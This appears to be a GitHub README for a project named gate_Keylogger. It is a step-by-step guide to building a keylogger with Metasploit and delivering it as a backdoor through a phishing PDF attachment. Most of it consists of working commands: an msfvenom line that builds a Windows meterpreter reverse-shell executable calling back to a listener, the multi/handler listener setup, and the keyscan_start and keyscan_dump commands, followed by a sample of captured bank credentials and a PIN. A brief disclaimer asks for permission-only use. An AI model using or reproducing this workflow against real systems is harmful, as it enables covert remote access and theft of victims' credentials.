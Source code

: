 # Building a keylogger using Metasploit framework
# $${\color{red}Welcome \space \color{lightblue}To \space \color{orange}Seyigate}$$

Help suport this project!!!

<a href="https://www.buymeacoffee.com/seyiphysica" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

This project should be only take place in a control environment and written permission must be given by the system owner.
Seyigate will not be liable to any destructive occurrence in the network and system infrastructure. 

Check out below to learn how to use the metasploit framework. This project was explained in a simplex term and proof of concept included, however they work great! Feel free to fork and improve it if you want. Be sure to check out the [issues](https://github.com/Seyigate/gate_Keylogger/issues) or [pull requests](https://github.com/Seyigate/gate_Keylogger/pulls) to see if your problem has been fixed, or to help out others.


**Introduction** 

This project created a Keyloggerusing Metasploit framework, uses payload as mode of operation.

A payload is a piece of code that executes when hackers exploit a vulnerability. In other words, it’s an exploit module. It’s usually composed of a few commands that will run on the targeted operating system to steal data and other malicious acts.

Keyloggers are a particularly insidious type of program that can record and steal consecutive keystrokes (and much more) that the user enters on a device. 

The term keylogger, or “keystroke logger,” is self-explanatory: Software that logs what you type on your keyboard. However, keyloggers can also enable you to eavesdrop on you, watch you on your system camera, or listen over your smartphone’s microphone.

It’s not unlikely to find harmful payloads in an email attachment. One of the most effective ways to attack or compromise targeted system infrastructure is via phishing email 

**send emails with an attached .pdf file containing a malicious payload <sup>**keylogger**</sup> that will install a backdoor.**

If the victim downloads the file and double-clicks to open it, which will triggers the code in the background. This allows for serving a shell to access the victim’s computer when the victim sends a TCP connection.

Finally, the threat actor will be able to use payloads installed on the targeted machine to record and steal consecutive keystrokes (and much more) that the user enters on a device such as bank user credentials and lot more. 


# **Content**
* [Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)

* gate_keylogger
The aim is to create a payload called Meterpreter using Inbuilt Metasploit-framework see- [metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

Metasploit is handy for generating a reverse shell. The following command generates a reverse TCP shell with the Metasploit framework:
It generate a Windows reverse shell executable that will connect back to us on port 4444.
```
 ┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f exe -o keyshell.exe
```

For the purpose of this project, A listener interactive shell will be initiated, this will allows for serving a shell to access
the targeted machine when the victim sends a TCP connection to record and steal consecutive keystrokes that the user enters on a device.

```
  ┌──(kali㉿kali)-[~]
    └─$ msfconsole
```

In msfconsole, select an exploit module, which is exploit/multi/handler
multi/handler exploit is a stub that handles exploits launched outside of the framework.
it is also a remote exploit module, which can also engage multiple hosts.

```
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) >show info
```
 When using the exploit/multi/handler module, we still need to tell it which payload to expect so we configure it to have the same settings as the executable we generated.
 
```
  msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
  msf6 exploit(multi/handler) > show options
```

 Then configure the parameter appropriately
 
```
 msf6 exploit(multi/handler) > set LHOST 192.168.50.2
 msf6 exploit(multi/handler) > set LPORT 4444
```
Now that we have everything set up and ready to go, 
We run exploit for the multi/handler and execute our generated executable on the victim. 
The multi/handler handles the exploit for us and presents us our shell.

```
    msf6 exploit(handler) > exploit
```
The keyscan_start command starts the keylogging feature on the remote machine.
    Starting the keystroke sniffer ...
```
 meterpreter> keyscan_start    
```
 Starting the keystroke sniffer ...
 The keyscan_dump command is a keylogger feature. You must use the keyscan_start command before using keyscan_dump
   
```
  meterpreter> keyscan_dump
```
 Dumping capture keystrokes ...

 See the capturing kestrokes below

 <SHIFT> www.baclaysbank.co.uk
 
 <SHIFT>username> shift><yinkajah@gmail.com
 
 <CR>password><tap> R2jshb!@(*&^HB
 
 <CR>pin: 126782
 
 snip....

 For more details see *[Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)*


   




  



